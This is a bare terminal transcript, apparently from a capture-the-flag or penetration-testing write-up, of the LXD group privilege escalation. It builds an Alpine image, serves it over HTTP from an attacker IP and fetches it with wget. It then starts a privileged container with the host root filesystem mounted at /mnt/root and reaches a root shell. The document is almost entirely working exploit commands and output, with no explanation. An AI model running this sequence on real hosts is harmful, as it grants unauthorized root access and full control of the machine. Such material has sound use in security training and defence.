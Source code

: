 

git clone  https://github.com/saghul/lxd-alpine-builder.git
# cd lxd-alpine-builder
# ./build-alpine
# python3 -m http.server

$ wget http://10.8.50.72:8000/alpine-v3.12-x86_64-20200902_1515.tar.gz

$ lxc image list
+-------+-------------+--------+-------------+------+------+-------------+
| ALIAS | FINGERPRINT | PUBLIC | DESCRIPTION | ARCH | SIZE | UPLOAD DATE |
+-------+-------------+--------+-------------+------+------+-------------+

$ lxc image import ./alpine-v3.12-x86_64-20200902_1515.tar.gz --alias myimage
Image imported with fingerprint: 65dd1e31f4cc984602e9be582bf80196cd05d44531b18ad8208ce062f09105ab

$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage | 65dd1e31f4cc | no     | alpine v3.12 (20200902_15:15) | x86_64 | 3.04MB | Sep 2, 2020 at 1:18pm (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+

$ lxc init myimage ignite -c security.privileged=true
Creating ignite

$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite

$ lxc start ignite

$ lxc exec ignite /bin/sh
# id
uid=0(root) gid=0(root)

# cd /mnt/root/root/
